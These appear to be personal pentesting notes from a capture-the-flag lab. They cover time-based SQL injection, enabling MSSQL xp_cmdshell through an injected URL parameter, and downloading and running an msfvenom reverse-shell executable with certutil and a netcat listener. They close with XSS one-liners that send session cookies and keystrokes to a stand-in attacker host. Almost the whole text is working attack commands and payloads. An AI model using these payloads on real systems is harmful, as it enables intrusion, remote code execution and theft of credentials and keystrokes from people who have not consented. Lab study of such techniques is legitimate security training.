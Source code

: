 ### Time Based Return

```
' UNION SELECT SLEEP(5);--
```
Same as Boolean Return except when the SLEEP(5) function is hit - the return is equal to TRUE
```
' UNION SELECT SLEEP(5),2 where database() like 'u%';--
```
will sleep if the database name starts with the letter "u"

## xp_cmdshell

**xp_cmdshell** is a system-extended stored procedure in **Microsoft SQL Server** that enables the execution of operating system commands and programs from within SQL Server.

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

~~~
http://10.10.39.50/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
~~~

Generate Payload WIndows MSSQL
```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe
```
Start a Python HTTP Server
```shell-session
python3 -m http.server 8000
```

~~~
http://MACHINE_IP/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://YOUR.IP.ADDRESS.HERE:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --
~~~
The above SQL statement will call **certutil** to download the **reverse.exe** file from our Python HTTP server and save it to the Windows temp directory for later use.

Start a netcat Listener
```shell-session
nc -lnvp 4444
```
Now, we can run one final stacked query to execute the **reverse.exe** file we previously saved in the `C:\Windows\Temp` directory:
```
http://MACHINE_IP/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --```
```



---

# Now You're here..

Session stealer
`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`
Key Logger
`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`


